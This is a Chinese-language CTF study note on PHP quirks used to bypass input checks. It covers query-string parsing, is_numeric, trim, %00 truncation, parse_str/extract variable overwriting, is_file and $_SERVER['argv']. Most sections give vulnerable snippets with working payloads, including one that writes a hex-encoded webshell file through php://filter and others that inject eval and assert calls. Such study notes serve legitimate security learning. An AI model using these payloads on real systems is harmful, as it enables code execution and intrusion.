

## **字符串解析特性**

原理：<https://blog.csdn.net/bin789456/article/details/120305682>
利用：<https://blog.csdn.net/qq_45521281/article/details/105871192>
如果一个IDS/IPS或WAF中有一条规则是当num参数的值是一个非数字的值则拦截。
则禁用?num=a，但用? num=a，?%20num=a效果一样。以及?[num=a。获取参数时会转成_num


^
传参特性
```
PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。如：/?CTF=ctf变成Array（[CTF]=>"ctf"）。
查询字符串在解析的过程中会删除空白符，同时将某些字符删除或用下划线代替。
如，/?CTF[SHOW=42 会转换为Array([CTF_SHOW] => 42) 。

在php中变量名只有数字字母下划线，被get域者post传入的变量名，如果含有空格、+、[则会被转化为_，
所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.）
但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换。

$_POST['a_sec.b']
需要传a[sec.b=

h_in.t传参h[in.t

a_b直接传参a_b即可
```


^
## **时间相关**
```
$guess = $_GET['input'];
$target = random_int(114,114+date('s')*100000);  //114+获取的当前秒数
if(intval($guess) === intval($target)){
    good
}
```
114+获取当前秒数，必然有当前秒数是0，则就是114，所以一直?input=114等到秒数为0时即可。


^
## **运算符优先级**
and优先级低于=
```
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); //and优先级低于=。
//所以$v0的值就是$v1的判断，检查变量$v1是否是一个数字值或数字字符串。
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }   
}

要读取一个类信息，类名
var_dump(get_class_vars('ctfshow'));
?v1=1&v2=var_dump(get_class_vars&v3=);

反射获取类信息
echo new ReflectionClass('ctfshow');
?v1=1&v2=echo new ReflectionClass&v3=;
```

^
## **is_numeric函数特性**
```
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

php5下is_numeric可识别16进制，如0x2e，然后调用hex2bin转成字符串写入木马，
但题目环境没配好，是php7的is_numeric不能识别16进制，必须全数字，所以要另换方法。

当用伪协议写入时，将如下木马先base64编码后转成16进制就是全是数字的字符串！
$a='<?=`cat *`;';
$b=base64_encode($a);//$a=PD89YGNhdCAqYDs=
$c=bin2hex('PD89YGNhdCAqYDs');
得到5044383959474e6864434171594473

?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
POST:v1=hex2bin
```


^
## **parse_str()函数**
类似extract()函数和变量覆盖。
parse_str() 函数把查询字符串解析到变量中。
如果未设置第二个参数的array参数，由该函数设置的变量将覆盖其他地方定义已存在的同名变量。
```
// 假设我们有一个 URL 编码的字符串
$str = "name=Kimi&age=30";

// 使用 parse_str() 解析字符串
parse_str($str);

// 输出解析后的变量
echo $name; // 输出 Kimi
echo $age;  // 输出 30

parse_str($str,$arr);
$arr['name']
$arr['age']
```
```
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
   parse_str($v1,$v2);
   if($v2['flag']==md5($v3)){
       echo $flag;
   }

Payload：
GET：v3=0
POST: v1=flag=cfcd208495d565ef66e7dff9f98764da
```


^
和extract()配合题：
```
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```
```
?_POST[key1]=36d&_POST[key2]=36d
通过parse_str转成$_POST[key1]=36d
通过extract转成$key1=36d
```


^

^
## **%00截断和ereg()函数**
ereg()正则匹配函数
```
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {  //原意c传递必须全字母，但是可以%00截断后，后非字母
    die('error');

}

if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?c=A%00778
正则匹配A满足
反转877A
数值877 即16进制36d
```


^
## **trim()函数绕过**
```
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36'){
    if($num=='36'){
        echo $flag;}

trim() 去除普通空格、制表符(%09)、换行符(%0a)、回车符(%0d)、空字节符(%00)、垂直制表符（%0b），但不去除换页符%0c
?num=%0c36
```
 

^
## **is_file()函数绕过**
```
if(! is_file($file)){
    highlight_file($file);
}
```
要让其认为$file不是一个文件。
```
1、伪协议
2、利用长度溢出认为不是文件
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

```


^

## **$_SERVER['QUERY_STRING'];**
对于GET传参：?a=b&c=d
$_SERVER['QUERY_STRING']; //  a=b&c=d 获取的是服务端还没url解码之前的字符串
```
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}

Payload：
对_进行url编码绕过waf，extract获取参数会自动解码。
?ctf%5fshow=ilove36d

Payload：
?ctf show=ilove36d
空格会获取参数时转成_
```

## **$_SERVER['argv']**
```
对于GET传参：?a=b+fl0g=flag_give_me
$a=$_SERVER['argv']; //为数组 

$_SERVER['argV'][0]为 a=b，同$_SERVER['QUERY_STRING']; 
$_SERVER['argV'][1]为 fl0g=flag_give_me
```
```
<?php
 
$a=$_SERVER['argv'];
$c=$_POST['fun'];
eval("$c".";");  

if(!isset($_GET['fl0g'])){
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>


Payload1：
GET：?a=1+fl0g=flag_give_me  绕过if(!isset($_GET['fl0g']))
POST：fun=parse_str($a[1])

由$_SERVER['argV'][1]为 fl0g=flag_give_me
通过parse_str得 $fl0g=flag_give_me


Payload2：
?$flog=flag_give_me
fun=assert($a[0])
```

^
## **_()函数gettext()函数和get_defined_vars函数**
当php扩展目录下有php_gettext.dll时，_()是一个函数等同gettext()函数。
并且gettext("get_defined_vars");会返会get_defined_vars。
当gettext()函数被调用开启，get_defined_vars()函数可以被使用，返回由所有已定义变量所组成的数组。
```
$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}

Payload：?f1=_&f2=get_defined_vars
```


^
## **a || b && c会先计算哪个？**
在大多数编程语言中，逻辑与（&&）操作符的优先级高于逻辑或（||）操作符。
因此，在表达式 `a || b && c` 中，会先计算 `b && c`，然后根据结果再与 `a` 进行逻辑或运算。


